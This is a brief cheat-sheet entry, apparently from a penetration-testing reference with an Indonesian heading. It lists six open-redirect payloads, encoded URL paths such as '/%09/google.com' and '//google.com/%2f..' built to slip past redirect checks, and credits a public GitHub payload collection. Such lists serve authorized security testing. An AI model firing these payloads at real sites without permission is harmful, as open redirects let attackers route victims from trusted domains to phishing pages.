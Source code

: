 ## Open Redirect/Buka Pengalihan

```
/%09/google.com
```

```
/%5cgoogle.com
```

```
//www.google.com/%2f%2e%2e
```

```
//www.google.com/%2e%2e
```

```
//google.com/
```

```
//google.com/%2f..
```


**Open Redirect Payloads** oleh@cujanovic

https://github.com/cujanovic/Open-Redirect-Payloads
